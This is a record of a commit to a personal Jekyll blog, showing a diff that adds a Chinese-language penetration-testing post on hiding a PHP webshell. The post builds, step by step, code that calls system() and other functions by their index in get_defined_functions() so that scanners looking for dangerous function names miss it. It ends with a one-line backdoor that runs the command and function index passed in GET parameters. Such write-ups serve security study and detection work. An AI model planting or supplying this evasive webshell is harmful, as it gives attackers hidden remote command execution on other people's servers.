

Before and after one commit to Urahara3389/Urahara3389.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
webshell

````diff
--- a/_posts/2016-12-22-php disabled_functions bypass.markdown
+++ b/_posts/2016-12-22-php disabled_functions bypass.markdown
@@ -4,7 +4,7 @@ title:      "PHP Disabled_functions Bypass"
 subtitle:   "bypass"
 date:       2016-12-22
 author:     "Urahara"
-header-img: "img/1036d061984b77d4087f5fd93fc79881.jpg"
+header-img: "img/4eff2c041976ea22afb7092a53188c70.jpg"
 header-mask: 0.3
 tags:
     - php
--- /dev/null
+++ b/_posts/2017-08-17-Using get_defined_functions to hidden a php backdoor.markdown
@@ -0,0 +1,102 @@
+---
+layout:     post
+title:      "Using get_defined_functions To Hidden A PHP Backdoor"
+subtitle:   "A little record"
+date:       2017-08-17
+author:     "Urahara"
+header-img: "img/4eff2c041976ea22afb7092a53188c70.jpg"
+header-mask: 0.3
+tags:
+    - 渗透测试
+    - webshell
+
+
+---
+
+
+
+webshell隐藏是渗透当中一个很重要的权限维持技术，目前也有各种各样的隐藏方法，pen-tester的思路也越来越开放(weisuo)。这篇文章主要记录一下利用get_defined_functions()来隐藏webshell的方法，不是什么新技术，但也值得摸索。
+
+关于get_defined_functions()就不在这里介绍了，大家直接去翻官方文档即可，这里看一下还函数的执行结果应该也能明了。
+
+![func_arry](http://reverse-tcp.xyz/img/get_defined_functions/func_arry.png)
+
+以下是一个该函数在webshell里边利用的一个思路，主要是可以隐藏危险函数字符串，而利用正则去文件系统及网络流量上匹配危险函数的安全防护对此也就无效了，先看代码：
+
+```php
+<?php
+function callfunc() {
+
+    $func = get_defined_functions();  //函数自己完成所有函数的枚举，成为list
+    $args = func_get_args();  //获取传入参数值
+    $func_id = array_shift($args);  //获取传入的函数所代表的list key
+    $func_name = $func['internal'][$func_id];  //以key来索引函数名
+
+    return call_user_func_array($func_name, $args);  //调用回调函数，传参执行
+}
+print callfunc(460, "whoami");
+?>
+```
+
+这里自定义了一个callfunc函数，将system函数以索引460传入，并在call_user_func_array()函数执行
+
+![callfunc](http://reverse-tcp.xyz/img/get_defined_functions/callfunc.png)
+
+按照这个套路我们继续将*func_get_args()*、*array_shift()*、*call_user_func_array()*也用*get_defined_functions()*来调用，那么就变成了这样
+
+```php
+<?php
+function callfunc() {
+
+    $func = get_defined_functions();
+    $args = $func['internal'][3]();
+    $func_id = $func['internal'][805]($args);
+    $func_name = $func['internal'][$func_id];
+
+    return $func['internal'][556]($func_name, $args);
+}
+print callfunc(460, 'whoami');
+?>
+```
+
+当然也可以是这样
+
+```php
+<?php
+function callfunc() {
+
+    $func = get_defined_functions()['internal'];
+    $args = $func[3]();
+    $func_id = $func[805]($args);
+    $func_name = $func[$func_id];
+    return $func[556]($func_name, $args);
+}
+print callfunc(460, 'whoami');
+?>
+```
+
+最后我们将自定义函数名及所有变量名缩短，只留一个核心get_defined_functions()函数即可
+
+```php
+<?php
+function f() {
+
+    $a = get_defined_functions()['internal'];
+    $s = $a[3]();
+    $b = $a[805]($s);
+    $c = $a[$b];
+    return $a[556]($c, $s);
+}
+print f(460, 'whoami');
+?>
+```
+
+**无特征webshell**
+
+最后我们将所需要执行的命令及想要使用的函数key以参数方式提交，这样就可以完全避免掉危险函数字符串而不通过任何编码，并且相当自由化，你可以用system可以用exec等等。
+
+```php
+<?php function f() { $a = get_defined_functions()['internal'];$s = $a[3]();$b = $a[805]($s);$c = $a[$b];return $a[556]($c, $s); }print f($_GET['id'], $_GET['cmd']);?>
+```
+
+![wenshell](http://reverse-tcp.xyz/img/get_defined_functions/webshell.png)
````
Also changed, not shown: img/4eff2c041976ea22afb7092a53188c70.jpg (added), img/get_defined_functions/callfunc.png (added), img/get_defined_functions/func_arry.png (added), img/get_defined_functions/webshell.png (added).
